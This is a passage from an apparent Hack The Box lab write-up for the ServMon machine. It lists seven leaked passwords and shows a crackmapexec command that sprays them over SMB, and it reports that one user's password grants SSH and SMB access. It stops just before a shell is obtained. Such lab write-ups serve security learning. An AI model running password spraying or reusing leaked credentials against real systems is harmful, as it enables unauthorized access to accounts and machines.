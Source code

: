 It contains several passwords that we can use for brute-forcing/password spraying attacks:

- `1nsp3ctTh3Way2Mars!`
- `Th3r34r3To0M4nyTrait0r5!`
- `B3WithM30r4ga1n5tMe`
- `L1k3B1gBut7s@W0rk`
- `0nly7h3y0unGWi11F0l10w`
- `IfH3s4b0Utg0t0H1sH0me`
- `Gr4etN3w5w17hMySk1Pa5$`

___

## Foothold

### Password spraying

#### SMB (port 445)

```bash
$ crackmapexec smb $TARGET -u Users.txt -p Passwords.txt 
```

![Desktop View](/assets/img/htb/machines/windows/easy/servmon/crackmapexec_smb.png)

#### SSH (port 22)

![Desktop View](/assets/img/htb/machines/windows/easy/servmon/crackmapexec_ssh.png)

### Gaining access

**Nadine**'s password `L1k3B1gBut7s@W0rk` works for both SSH and SMB. Let's get a shell: 
